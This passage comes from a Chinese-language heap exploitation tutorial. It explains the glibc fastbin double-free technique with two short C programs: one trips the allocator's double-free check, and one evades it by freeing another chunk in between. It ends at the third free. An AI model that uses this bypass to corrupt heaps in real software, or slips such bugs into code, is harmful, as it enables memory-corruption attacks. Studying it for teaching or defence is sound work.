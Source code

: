 ## 演示

下面的示例程序说明了这一点，当我们试图执行以下代码时

```c
int main(void){
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);
    free(chunk1);
    free(chunk1);
    return 0;
}//如果free(chunk1) fastbins 中也为 chunk1 会出错。 
```

如果你执行这个程序，不出意外的话会得到如下的结果，这正是 _int_free 函数检测到了 fastbin 的 double free。

如果我们在 chunk1 释放后，再释放 chunk2 ，这样 main_arena 就指向 chunk2 而不是 chunk1 了，此时我们再去释放 chunk1 就不再会被检测到。

```c
int main(void){
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```

第一次释放`free(chunk1)`

![img](fastbin-attack/fastbin_free_chunk1.png)

第二次释放`free(chunk2)`

![img](fastbin-attack/fastbin_free_chunk2.png)

第三次释放`free(chunk1)`
